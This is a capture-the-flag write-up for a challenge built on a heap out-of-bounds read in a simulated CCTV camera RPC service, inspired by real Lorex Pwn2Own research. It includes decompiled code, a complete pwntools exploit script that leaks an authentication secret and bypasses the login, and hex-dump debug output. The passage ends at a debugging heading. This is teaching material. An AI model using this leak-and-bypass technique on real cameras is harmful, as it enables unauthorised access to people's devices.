





# Snorex 2K Camera

## Description

> I bought this second-hand CCTV camera but I seem to be locked out, can you help me? Apparently it's a "Snorex 2K Indoor Wi-Fi Security Camera"

## Solution

I made this \[baby\] pwn chall (OOB heap read), with some inspiration from one of the steps in the [Lorex CCTV Pwn2Own Research (2024)](https://www.rapid7.com/blog/post/2024/12/03/lorex-2k-indoor-wi-fi-security-camera-multiple-vulnerabilities-fixed/) discovered by [Stephen Fewer](https://twitter.com/stephenfewer). The original challenge design was closer to the actual research, but I simplified it due to constraints (dev/test time, single random port requirement) and the event type (24 hours, audience mostly bug bounty / web-focused). Regardless, I think the best CTF challenges take some inspiration from real world vulnerabilities/attacks, and at the very least, it might encourage some players to learn about another cool Pwn2Own chain!

### Basic File Checks

Checking the binary protections, we'll see from the checksec output that all security mechanisms are enabled. The binary is not stripped, and I even include debug info to make reversing as painless as possible 😇

```bash
file snorex_sonia; checksec --file snorex_sonia

snorex_sonia: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=099466942a10f6753c1177645a57c127b73c86bb, for GNU/Linux 3.2.0, with debug_info, not stripped

[*] '/home/crystal/Desktop/snorex_sonia'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

If we run the binary, it creates an RPC listener on port 3500 (different for remote).

```bash
./snorex_sonia

[snorex] rpc port=3500
[rpc] listening on 3500
```

We could try and connect with netcat, but there is no output on the client or server-side. Let's disassemble the binary with Ghidra.

### Static Analysis

```c
int main(void)
{
    load_config();
    srand(g_cfg.ts * 2 ^ (uint)time(0) ^ (uint)getpid());
    if (pthread_create(&th, 0, rpc_server_thread, 0) == 0) {
        pthread_join(th, 0);
    } else {
        perror("pthread_create");
    }
    return 0;
}
```

The `main` function begins by calling a `load_config` function which:

-   Loads some environment variables (serial number + MAC address) into a global config structure (`[11-19]`)
-   Allocates a heap descriptor via `usrMgr_getEncryptDataStr()` and stores the pointer in `g_usr_ctx.encrypt_data` under a mutex (`[22]`)



Inside `usrMgr_getEncryptDataStr` looks like this. It allocates a fixed-size heap chunk (`0x108`), writes a constant marker tag (`"SNOREX1"`), then builds a newline-delimited string that includes the device serial, a timestamp, the device MAC, and 15 bytes of random data encoded as 30 hex characters.

```c
__s = (USR_MGR_ENCRYPT_DATA *)malloc(0x108); // tag[8] + encrypt_str[0x100]
if (__s != (USR_MGR_ENCRYPT_DATA *)0x0) {
    refresh_secrets(); // updates g_cfg.ts + g_cfg.rand_bytes
    memset(__s, 0, 0x108);
    memcpy(__s, "SNOREX1", 7); // tag marker (nice leak anchor)
    ...
    rand_hex[0x1e] = '\0'; // 15 bytes -> 30 hex chars
    snprintf(__s->encrypt_str, 0x100,
             "1\n%s\n%u\n\n%s\n%s\n",
             g_cfg.serial,
             g_cfg.ts,
             g_cfg.mac,
             rand_hex);
}
```

After this initial setup, the `rpc_server_thread` listens/accepts, then spawns a `client_thread` per connection. The core behaviour is inside `handle_request` which:

1. reads a request header **`[1]`**
2. dispatches based on a numeric command ID **`[2]`**
3. sends a response **`[3]`**

#### Request Handling

**`[1]` -> Reading a request header**

Each request starts with an 8-byte fixed header (`hdr[2]`):

```c
iVar2 = read_full(fd, hdr, 8);

cmd_00 = ntohl(hdr[0]); // cmd in network byte order
len_00 = ntohl(hdr[1]); // payload length in network byte order
```

There's a cap on payload size:

```c
if (len_00 < 0xf4241) { // 1000001
    ...
}
```

If `len` is non-zero, the server allocates a buffer and reads the payload:

```c
buf = (uint8_t *)0x0;
if (len_00 != 0) {
    buf = (uint8_t *)malloc((ulong)len_00);
    if (buf == (uint8_t *)0x0) return -1;

    iVar2 = read_full(fd, buf, (ulong)len_00);
    if (iVar2 != 0) {
        free(buf);
        return -1;
    }
}
```

**`[2]` -> Dispatching a command**

There are three possible command IDs (`0`, `1`, `6`), but only two handlers (`auth` / `IQ`):

```c
if ((cmd_00 == 0) || (cmd_00 == 1)) {
    r = handle_auth(cmd_00, buf, len_00, fd);
}
else if (cmd_00 == 6) {
    r = handle_iq(6, buf, len_00, fd);
}
```

**`[3]` -> Sending a response**

All responses follow the same pattern (built inside the relevant handler):

-   write an 8-byte header `[status][length]`
-   write `length` bytes of body (optional)

#### Authentication (cmd = 0 / cmd = 1)

The `auth` side lives in `handle_auth(cmd, buf, len, fd)`. There are two code paths:

-   `cmd = 0` -> regenerate / refresh the global descriptor
-   `cmd = 1` -> compute expected auth code and compare it to what we sent

##### cmd = 0 (regenerate descriptor)

This path calls `usrMgr_getEncryptDataStr()`, stores the returned heap pointer in `g_usr_ctx.encrypt_data`, then replies with a header-only response.

```c
if (cmd == 0) {
    pUVar3 = usrMgr_getEncryptDataStr(); // new descriptor
    if (pUVar3 == (USR_MGR_ENCRYPT_DATA *)0x0) {
        iVar2 = -1;
    } else {
        pthread_mutex_lock((pthread_mutex_t *)&g_usr_mutex); // lock global ctx
        __ptr = g_usr_ctx; // snapshot old pointer
        g_usr_ctx.encrypt_data = pUVar3; // swap in new pointer
        pthread_mutex_unlock((pthread_mutex_t *)&g_usr_mutex); // unlock

        if (__ptr.encrypt_data != (USR_MGR_ENCRYPT_DATA *)0x0) { // free old descriptor
            free(__ptr.encrypt_data);
        }

        hdr[0] = htonl(0); // status=0
        hdr[1] = htonl(0); // length=0
        iVar2 = write_full(fd, hdr, 8); // header-only response
    }
}
```

In `usrMgr_getEncryptDataStr()`, you can see the exact structure size and the string formatting.

```c
__s = (USR_MGR_ENCRYPT_DATA *)malloc(0x108); // tag[8] + encrypt_str[0x100]
if (__s != (USR_MGR_ENCRYPT_DATA *)0x0) {
    refresh_secrets(); // updates g_cfg.ts + g_cfg.rand_bytes
    memset(__s, 0, 0x108);
    memcpy(__s, "SNOREX1", 7); // tag marker (nice leak anchor)
    ...
    rand_hex[0x1e] = '\0'; // 15 bytes -> 30 hex chars
    snprintf(__s->encrypt_str, 0x100, // formatted string incl serial, MAC, timestamp and random hex
             "1\n%s\n%u\n\n%s\n%s\n",
             g_cfg.serial, g_cfg.ts, g_cfg.mac, rand_hex);
}
```

##### cmd = 1 (check auth code -> flag gate)

The `cmd=1` path holds the "win" condition: it computes the expected code and compares it against our input. If they match, we get the flag (maybe you searched for this string at the beginning 😉).

```c
else if (cmd == 1) {
    if ((buf == (uint8_t *)0x0) || (len < 0x10)) {
        iVar2 = -1;
    } else {
        PasswdFind_getAuthCode(expected); // compute expected 16-hex auth code
        iVar2 = memcmp(buf, expected, 0x10); // compare our input to expected (16 bytes)

        if (iVar2 != 0) {
            flag = "Unauthorized\n";
        } else {
            flag = getenv("FLAG");
        }
        if ((flag == (char *)0x0) || (*flag == '\0')) {
            flag = "flag{now_repeat_against_remote_server}"; // win
        }
        sVar4 = strlen(flag);

        hdr[0] = htonl((uint)(iVar2 != 0)); // status: 0 on match
        hdr[1] = htonl((uint32_t)sVar4); // response length (flag or "Unauthorized")
        iVar2 = write_full(fd, hdr, 8); // send header first
        if (iVar2 == 0) {
            iVar2 = write_full(fd, flag, sVar4 & 0xffffffff); // then send body
        } else {
            iVar2 = -1;
        }
    }
}
```

So, what does `PasswdFind_getAuthCode()` actually do? It retrieves the `encrypt_str`, MD5 hashes it and extracts the first 8 bytes of the digest (16 hex chars).

```c
UVar3 = g_usr_ctx;

n_00 = strnlen((g_usr_ctx.encrypt_data)->encrypt_str, 0x100); // len(encrypt_str)
MD5((uchar *)(UVar3.encrypt_data)->encrypt_str, n_00, digest); // md5(encrypt_str)

for (i = 0; i < 8; i = i + 1) { // first 8 bytes -> 16 hex chars
	bVar1 = digest[i];
	out_hex16[i * 2] = "0123456789abcdef"[(int)(uint)(bVar1 >> 4)];
	out_hex16[(long)(i * 2) + 1] = "0123456789abcdef"[(int)(bVar1 & 0xf)];
}
out_hex16[0x10] = '\0';
```

#### IQ Service (cmd = 6)

`cmd=6` goes through `handle_iq()`, which allocates a fixed-size heap buffer, lets `MI_IQSERVER_GetApi()` fill it, then returns `out.curr_length` bytes back to the client.

The important detail is that the IQ heap buffer is **only 0x100 bytes**, but the length returned to the client is **derived from attacker-controlled input**.

```c
if (cmd == 6) {
    __s = (uint8_t *)malloc(0x100); // fixed-size IQ heap buffer
    if (__s == (uint8_t *)0x0) {
        iVar2 = -1;
    } else {
        memset(__s, 0, 0x100); // zero init

        out.max_length = 0x100; // actual allocation size
        out.curr_length = 0; // computed by GetApi
        out.heap_ptr = __s; // response starts here

        MI_IQSERVER_GetApi(buf, len, &out); // fills buffer + sets curr_length

        hdr[0] = htonl(0);
        hdr[1] = htonl(out.curr_length); // length trusted by server
        iVar2 = write_full(fd, hdr, 8);
        if (iVar2 == 0) {
            if (out.curr_length != 0) {
                write_full(fd, __s, (ulong)out.curr_length); // OOB read when > 0x100
            }
            free(__s);
            iVar2 = 0;
        } else {
            free(__s);
            iVar2 = -1;
        }
    }
}
```

So what happens in `MI_IQSERVER_GetApi`?

First, it sanity-checks the request and enforces an IQ ID (`0x2803`) in the first two bytes of the payload:

```c
if (3 < in_length && (CONCAT11(*in_data, in_data[1]) == 0x2803)) {
    ...
}
```

It then reads `max_word` from the payload and uses it to compute the output length:

```c
raw_len = (CONCAT11(uVar1, uVar2) + 2) * 4; // raw_len = 4 * (max_word + 2)
if (0x400 < raw_len) raw_len = 0x400; // hard upper bound
out->curr_length = raw_len; // NOT clamped to out->max_length (0x100)
```

Crucially, `out->curr_length` is **never compared against `out->max_length`**.

After that, the function initialises exactly **0x100 bytes** of data:

```c
__dest = out->heap_ptr;

memcpy(__dest, "IQDA", 4); // hdr[0:4]
memcpy(__dest + 4, "CH01", 4); // hdr[4:8]

*(ulong *)(__dest + 8)  = CONCAT44(htonl(2400000), htonl(16000));
*(ulong *)(__dest + 0x10) = CONCAT44(htonl(time(0)), htonl(max_word));

for (i = 0x18; i < 0x40; i++) { // rest of hdr[64]
    __dest[i] = ((byte)i & 0x1f) + 0x80;
}

for (i_1 = 0; i_1 < 0xc0; i_1++) { // remaining bytes
    __dest[i_1 + 0x40] = (uint8_t)rand();
}
```

No authentication data is copied here, the buffer contains only header data and random bytes.

##### Attacker-controlled length

The IQ request includes a 16-bit `max_word` field. `MI_IQSERVER_GetApi()` uses it to calculate the response length:

```c
raw_len = (max_word + 2) * 4;
if (0x400 < raw_len) raw_len = 0x400;
out->curr_length = raw_len;
```

The problem is that `handle_iq()` always allocates exactly `0x100` bytes:

```c
__s = (uint8_t *)malloc(0x100);
```

So once `max_word` goes past `0x3E`, `out->curr_length` becomes larger than `0x100` (up to a max of `0x400`), and the server sends an out-of-bounds read back to the client.

##### Parsing the leak

The first `0x100` bytes are just the IQ header plus `rand()` output. The useful part is whatever comes after that, when the server reads beyond the chunk boundary.

We want the `USR_MGR_ENCRYPT_DATA` structure, because it starts with the tag marker `"SNOREX1"` and the bytes after it are the newline-delimited `encrypt_str`. If the tag does not show up in a given response, run it again (sending `cmd = 0` in between helps move that descriptor around).

### Heap OOB Read

From the client side, exploitation is trivial:

1. Send `cmd = 0` to force regeneration of `encrypt_str`
2. Send `cmd = 6` with a large `max_word`
3. Read the returned buffer and scan for the marker string `"SNOREX1"`
4. If the tag is not present, repeat from step 1

Example leaked data:

```
SNOREX1
1
FAKEZ-2K-CAM01
1765967358

AB:12:4D:7C:20:10
466ad593a347ea718a31520defeae1
```

### Completing authentication

Once `encrypt_str` is known, the auth token is computed locally:

```c
token = MD5(encrypt_str)[:16]
```

Sending this back via `cmd = 1` passes `PasswdFind_getAuthCode` and returns the flag.

### Exploit (PoC)

```python
from pwn import *
from hashlib import md5

# Use big-endian everywhere to match the RPC wire format
context.endian = "big"

# Marker at the start of USR_MGR_ENCRYPT_DATA
TAG = b"SNOREX1"

# Command ID for the IQ service
IQ_CMD = 6

# Connect to the target
io = remote("127.0.0.1", 3500)

# Step 1: cmd=0
# Heap churn: swap global descriptor + free old chunk
log.info("sending getDescript (cmd=0)")
io.send(p32(0) + p32(0))
io.recvn(8)

# Step 2: cmd=6 (IQ GetApi)
# Payload format: [u16 id][u16 max_word]
# max_word controls the reported output length
max_word = 0x64  # 0x3E = intended size (no vuln)
payload = b"\x28\x03" + p16(max_word)

# Send IQ request
log.info("sending IQ leak request")
io.send(p32(IQ_CMD) + p32(len(payload)) + payload)

# Read response header: [status][out_len]
status = u32(io.recvn(4))
out_len = u32(io.recvn(4))

# Read leaked heap data
leak = io.recvn(out_len)

# Locate the adjacent USR_MGR_ENCRYPT_DATA by its tag
idx = leak.find(TAG)
if idx == -1:
    raise SystemExit("TAG not found in IQ response")

# encrypt_str follows after tag[8]
encrypt_str = leak[idx + 8:]

# C string, so stop at the first NUL byte
encrypt_str = encrypt_str[:encrypt_str.index(b"\x00")]

log.info(f"leaked special string: {encrypt_str!r}")

# Step 3: compute auth token
# MD5(encrypt_str), first 16 hex characters
code = md5(encrypt_str).hexdigest()[:16]
log.info("derived code: " + code)
code = code.encode()

# Step 4: cmd=1
# Send the computed token to PasswdFind.checkAuthCode
log.info("sending checkAuthCode (cmd=1)")
io.send(p32(1) + p32(len(code)) + code)

# Read auth response header and body (flag on success)
status = u32(io.recvn(4))
rlen = u32(io.recvn(4))
log.info(io.recvn(rlen).decode(errors="ignore").strip())

io.close()
```

It won't work on the first try ([because..](#debugging))

```bash
python exploit.py DEBUG

[+] Opening connection to 127.0.0.1 on port 3500: Done
[*] sending getDescript (cmd=0)
[DEBUG] Sent 0x8 bytes:
    b'\x00' * 0x8
[DEBUG] Received 0x8 bytes:
    b'\x00' * 0x8
[*] sending IQ leak request
[DEBUG] Sent 0xc bytes:
    00000000  00 00 00 06  00 00 00 04  28 03 00 64               │····│····│(··d│
    0000000c
[DEBUG] Received 0x8 bytes:
    00000000  00 00 00 00  00 00 01 98                            │····│····│
    00000008
[DEBUG] Received 0x198 bytes:
    00000000  49 51 44 41  43 48 30 31  00 00 3e 80  00 24 9f 00  │IQDA│CH01│··>·│·$··│
    00000010  00 00 00 64  69 42 a2 10  98 99 9a 9b  9c 9d 9e 9f  │···d│iB··│····│····│
    00000020  80 81 82 83  84 85 86 87  88 89 8a 8b  8c 8d 8e 8f  │····│····│····│····│
    00000030  90 91 92 93  94 95 96 97  98 99 9a 9b  9c 9d 9e 9f  │····│····│····│····│
    00000040  ff d9 4f 60  0d ed c6 dd  cd 8d 30 6a  15 99 4e 32  │··O`│····│··0j│··N2│
    00000050  f4 d1 9d 5c  d1 6e 5d b7  32 60 62 18  37 d8 79 36  │···\│·n]·│2`b·│7·y6│
    00000060  b2 c8 96 bf  b5 5c 9c 83  ea cd ed ff  66 3c 31 5a  │····│·\··│····│f<1Z│
    00000070  0d cf b6 de  3d 13 95 6f  74 f7 87 ab  d0 00 e2 82  │····│=··o│t···│····│
    00000080  c9 78 41 7e  d5 de 01 bf  ab ef be 11  2b ef 6b 38  │·xA~│····│····│+·k8│
    00000090  be 22 16 fb  35 ab 6a a9  a3 f2 55 73  f2 37 f5 bb  │·"··│5·j·│··Us│·7··│
    000000a0  af 36 3a 84  14 3b 43 bf  2a 01 d0 55  f1 3c 8d af  │·6:·│·;C·│*··U│·<··│
    000000b0  5e a3 ab 93  4f 15 3d f2  07 92 65 fa  c9 5a b5 78  │^···│O·=·│··e·│·Z·x│
    000000c0  90 ef fd a5  2b 40 64 55  42 35 ab 33  71 38 e2 cf  │····│+@dU│B5·3│q8··│
    000000d0  dc 8d 62 2b  a3 9f 1d aa  31 82 a4 fa  dc 5a 73 6c  │··b+│····│1···│·Zsl│
    000000e0  49 70 11 74  b0 76 ca f2  ab 75 25 1c  ad 08 eb 89  │Ip·t│·v··│·u%·│····│
    000000f0  95 4d b4 38  ed d1 e3 1e  53 87 19 2f  e1 8c 9c 2b  │·M·8│····│S··/│···+│
    00000100  00 00 00 00  00 00 00 00  25 00 00 00  00 00 00 00  │····│····│%···│····│
    00000110  28 03 00 64  07 00 00 00  40 d2 d5 f4  56 7b 88 52  │(··d│····│@···│V{·R│
    00000120  00 00 00 00  00 00 00 00  61 02 02 00  00 00 00 00  │····│····│a···│····│
    00000130  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    00000190  00 00 00 00  00 00 00 00                            │····│····│
    00000198
TAG not found in IQ response
[*] Closed connection to 127.0.0.1 port 3500
```

The second run gets the flag 😌

```bash
python exploit.py DEBUG

[+] Opening connection to 127.0.0.1 on port 3500: Done
[*] sending getDescript (cmd=0)
[DEBUG] Sent 0x8 bytes:
    b'\x00' * 0x8
[DEBUG] Received 0x8 bytes:
    b'\x00' * 0x8
[*] sending IQ leak request
[DEBUG] Sent 0xc bytes:
    00000000  00 00 00 06  00 00 00 04  28 03 00 64               │····│····│(··d│
    0000000c
[DEBUG] Received 0x8 bytes:
    00000000  00 00 00 00  00 00 01 98                            │····│····│
    00000008
[DEBUG] Received 0x198 bytes:
    00000000  49 51 44 41  43 48 30 31  00 00 3e 80  00 24 9f 00  │IQDA│CH01│··>·│·$··│
    00000010  00 00 00 64  69 42 a2 0f  98 99 9a 9b  9c 9d 9e 9f  │···d│iB··│····│····│
    00000020  80 81 82 83  84 85 86 87  88 89 8a 8b  8c 8d 8e 8f  │····│····│····│····│
    00000030  90 91 92 93  94 95 96 97  98 99 9a 9b  9c 9d 9e 9f  │····│····│····│····│
    00000040  e2 a0 7f f8  e3 47 69 e3  11 b6 98 b9  41 9f 18 22  │····│·Gi·│····│A··"│
    00000050  a8 4b c8 fd  a2 04 1a 90  f4 49 fe 15  4b 48 96 2d  │·K··│····│·I··│KH·-│
    00000060  e8 15 25 cb  5c 8f ae 6d  45 46 27 86  e5 3f a9 8d  │··%·│\··m│EF'·│·?··│
    00000070  8a 71 8a 2c  75 a4 bc 6a  ee ba 7f 39  02 15 67 ea  │·q·,│u··j│···9│··g·│
    00000080  2b 8c b6 87  1b 64 f5 61  ab 1c e7 90  5b 90 1e e5  │+···│·d·a│····│[···│
    00000090  02 a8 11 77  4d cd e1 3b  87 60 74 8a  76 db 74 a1  │···w│M··;│·`t·│v·t·│
    000000a0  68 2a 28 83  8f 1d e4 3a  39 cc ca 94  5c e8 79 5e  │h*(·│···:│9···│\·y^│
    000000b0  91 8a d6 de  57 b7 19 df  18 8d 69 8e  69 dd 2f d1  │····│W···│··i·│i·/·│
    000000c0  08 57 54 97  75 39 d1 ae  05 9b 43 61  84 bc c0 15  │·WT·│u9··│··Ca│····│
    000000d0  47 96 f3 9e  4d 0c 7d 65  99 e6 f3 02  c4 22 d3 cc  │G···│M·}e│····│·"··│
    000000e0  7a 28 63 ef  61 34 9d 66  cf e0 c7 53  9d 87 68 e4  │z(c·│a4·f│···S│··h·│
    000000f0  1d 5b 82 6b  67 00 d0 01  e6 c4 03 aa  e6 d7 76 60  │·[·k│g···│····│··v`│
    00000100  00 00 00 00  00 00 00 00  15 01 00 00  00 00 00 00  │····│····│····│····│
    00000110  53 4e 4f 52  45 58 31 00  31 0a 53 4e  4f 52 58 2d  │SNOR│EX1·│1·SN│ORX-│
    00000120  32 4b 2d 43  41 4d 30 31  0a 31 37 36  35 39 37 34  │2K-C│AM01│·176│5974│
    00000130  35 34 33 0a  0a 42 43 3a  31 32 3a 35  45 3a 32 41  │543·│·BC:│12:5│E:2A│
    00000140  3a 31 30 3a  30 31 0a 63  64 34 63 61  33 64 36 62  │:10:│01·c│d4ca│3d6b│
    00000150  37 62 31 34  35 33 30 35  63 30 31 31  63 35 35 61  │7b14│5305│c011│c55a│
    00000160  38 37 62 64  34 0a 00 00  00 00 00 00  00 00 00 00  │87bd│4···│····│····│
    00000170  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    00000190  00 00 00 00  00 00 00 00                            │····│····│
    00000198
[*] leaked special string: b'1\nSNORX-2K-CAM01\n1765974543\n\nBC:12:5E:2A:10:01\ncd4ca3d6b7b145305c011c55a87bd4\n'
[*] derived code: 14d8b18d7826939c
[*] sending checkAuthCode (cmd=1)
[DEBUG] Sent 0x18 bytes:
    00000000  00 00 00 01  00 00 00 10  31 34 64 38  62 31 38 64  │····│····│14d8│b18d│
    00000010  37 38 32 36  39 33 39 63                            │7826│939c│
    00000018
[DEBUG] Received 0x8 bytes:
    00000000  00 00 00 00  00 00 00 28                            │····│···(│
    00000008
[DEBUG] Received 0x28 bytes:
    b'flag{h3y_7h47_w4s_7074lly_0u7_0f_b0unds}'
[*] flag{h3y_7h47_w4s_7074lly_0u7_0f_b0unds}
[*] Closed connection to 127.0.0.1 port 3500
```

Flag: `flag{h3y_7h47_w4s_7074lly_0u7_0f_b0unds}`

### Debugging

For those interested, I did a little debugging to try and work out what was going on. I could have coded the challenge better tbh, I was testing/making changes up to the last minute 🥲 Anyway, if you open the binary with pwndbg:

```bash
gdb -q ./snorex_sonia
r
```

Then hit `ctrl + C` and set a breakpoint in `handle_iq`, right after the `MI_IQSERVER_GetApi` call returns, and continue.

```bash
breakrva 0x1c4e
c
```

#### Initial Run (fail)

